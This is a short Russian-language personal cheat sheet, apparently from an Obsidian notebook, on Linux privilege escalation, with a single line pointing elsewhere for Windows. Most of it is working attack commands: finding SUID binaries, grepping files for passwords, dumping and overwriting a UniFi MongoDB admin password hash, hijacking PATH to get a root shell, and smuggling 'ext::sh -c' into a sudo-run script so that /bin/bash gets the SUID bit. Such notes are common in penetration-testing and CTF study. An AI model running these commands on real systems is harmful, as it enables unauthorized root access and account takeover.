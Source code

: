 ### \[lin/win]PEAS и аналоги
[[Кибербезопасность/Сканирование сети/Сканирование уязвимостей/Инструментарий]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```bash
	find / -user root -perm /4000 2> /dev/null
	``` 
	```bash
	find / -type f -perm -u=s 2> /dev/null
	```
	```bash
	find / -perm -40 2> /dev/null
	```
	```bash
	find / -perm -u=s -type f 2>/dev/null
	```
	
3. Происматривать файлы в поисках пароля и других закладок: 
	``` bash
	cat * | grep -i passw*
	```
	```bash
	sudo find / -user root -perm -4000 -exec ls -ldb {} \\; 2> /dev/null 
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```bash
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```bash
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```bash
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то **bash** команду. 

Дальше нужно создать файл этой bash команды с содержимым:
``` bash
/bin/sh
```
и добавить её в начало переменной **PATH**:
```bash
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

похожий пример:
![[Pasted image 20240625220640.png]]
```bash
echo '#!/bin/bash' > /tmp/exploit.sh 
echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```
```bash
ls -l /bin/bash
/bin/bash -p
```

Дополнительный материал по разведке в системе: [[Администрирование Linux#Информация о системе]]
# Windows

См. раздел "сетевые атаки" -> "Active Directory"

